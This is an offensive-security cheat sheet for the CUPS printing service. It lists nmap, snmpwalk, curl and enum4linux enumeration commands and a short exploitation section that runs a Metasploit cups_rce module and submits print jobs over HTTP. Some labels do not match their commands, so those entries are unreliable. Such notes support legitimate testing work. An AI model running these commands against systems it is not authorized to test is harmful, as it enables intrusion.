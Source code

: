 # CUPS

## Enumeration

### Metasploit

##### cups_enum
```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS [IP]
set RPORT 631
run
```

### Nmap

##### nmap (CUPS version detection)
```bash
nmap -p 631 --script=cups-info [IP]
```

##### nmap (CUPS banner grab)
```bash
nmap -p 631 --script=http-banner [IP]
```

### snmpwalk

##### snmpwalk (Enumerate CUPS printer info)
```bash
snmpwalk -v 2c -c [community] [IP] 1.3.6.1.2.1.43.5
```

### cURL

##### cURL (Check for open CUPS admin interface)
```bash
curl http://[IP]:631/admin
```

##### cURL (Check CUPS status)
```bash
curl http://[IP]:631/printers
```

### enum4linux

##### enum4linux (Check CUPS service)
```bash
enum4linux -P [IP]
```


---
---


## Exploitation

### Metasploit

##### cups_rce
```bash
use exploit/unix/http/cups_rce
set RHOSTS [IP]
set RPORT 631
run
```

### cURL

##### cURL (Submit a job to the printer)
```bash
curl -X POST -F "file=@[file]" http://[IP]:631/printers/[printername]
```